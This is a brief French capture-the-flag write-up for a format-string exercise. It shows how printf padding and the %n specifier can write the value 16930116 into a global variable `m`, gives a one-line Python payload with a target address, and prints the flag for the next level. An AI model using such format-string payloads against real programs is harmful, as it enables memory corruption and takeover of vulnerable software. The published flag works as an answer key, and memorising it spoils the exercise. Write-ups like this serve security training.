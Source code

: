 ## GET Flag

Très semblable à l'exercice précédent, une difficulté vient s'ajouter. Il est nécessaire d'assigner à la variable globale `m` la valeur: 16930116.
L'option: "%n" assignant le nombre de caractères précédement écrits, il est difficile d'écrire autant dans un buffer de 512.

Cependant, printf permet à l'utilisateur d'ajouter une quantité précise d'espaces grace au padding.
Il est de ce fait possible d'insérer plusieurs milliards de caractères dans un buffer de taille réduite.

`python -c 'print "\x10\x98\x04\x08" + "%10x"*10 + "%16930012x" + "%n"' > exploit`

### Flag

```
level5
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
